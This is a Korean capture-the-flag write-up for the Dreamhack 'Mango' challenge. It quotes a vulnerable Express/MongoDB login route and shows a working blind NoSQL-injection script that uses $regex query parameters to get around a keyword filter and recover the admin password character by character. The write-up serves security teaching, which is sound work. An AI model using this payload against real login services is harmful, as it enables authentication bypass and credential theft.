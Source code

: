 ```yaml
---
layout: post
title: Dreamhack | Mango
subtitle: Dreamhack Mango
categories: dreamhack.io
tags: [Pentest, Web]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209768468-a99abf9b-8cb2-470f-91ae-6f699275514d.png" width = 500> 
</p>

해당 커리큘럼은 **NoSQL Injection**으로 **Not Only SQL Injection**이다.

NoSQL로 대표적인 MongoDB를 Injection하는 문제입니다.

`{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}`로 기본적인 힌트를 제공한 상태입니다.

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209769011-290527da-cee8-486b-80b6-898d5b7a8f46.png" width = 360> 
</p>

처음 접속했을 때의 화면이다. `/login?uid=guest&upw=guest`의 힌트가 있기에 `http://host3.dreamhack.games:22541/login?uid=guest&upw=guest`로 접속하면 **guest** 문자열만을 출력한다.

`upw=a`로 변경하여 접속하게 되면 **undefined**를 출력한다.

위에서 나온 힌트 **admin**의 upw를 알아내는 것이 목표가 될 것이다.

아래는 제공 파일이고, 각각을 분석해보겠습니다.

```javascript
app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

`/` 루트로 접근했을 때 위 사진처럼 파라미터에 대한 String을 출력해준 것을 알 수 있다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

`filter` 함수는 우리가 **/login**을 통해 넘긴 파라미터에 대한 값이 `BAN`에 포함 되어 있다면 Boolean을 return하는 함수다.

```javascript
app.get('/login', function(req, res) {
    if(filter(req.query)){ // <-------  Type Vulnerability
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

필터링을 거치고 uid와 upw 변수에 할당하여 DB 조회시 값이 있다면 uid를 출력하는 홈페이지가 되겠습니다.

하지만, 주석 부분을 보면 쿼리에 대한 타입 검사를 진행하지 않기에 `json, string, object, list` 등 어떤 타입으로 전달이 가능하게 된다.

참과 거짓에 대한 결과가 나타나므로 Blind Injection을 진행하겠습니다.

현재, **admin**과 **DH**가 필터링 되어 있으므로 정규식을 이용해 우회하고, 플래그는 32자리 알파벳으로 정해져있다고 했으므로, 익스플로잇을 짜면 아래와 같게 된다.

```python
import requests, string
from tqdm import *

HOST = 'http://host3.dreamhack.games:22541'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in tqdm(range(32)):
    for ch in ALPHANUMERIC:
        {% raw %}
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        {% endraw %}
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

`uid[$regex]=ad.in`의 `.`을 통해 admin과 DH 필터링을 우회하고 기존 Blind SQLi와 동일한 방식으로 익스플로잇하면 FLAG를 얻을 수 있다.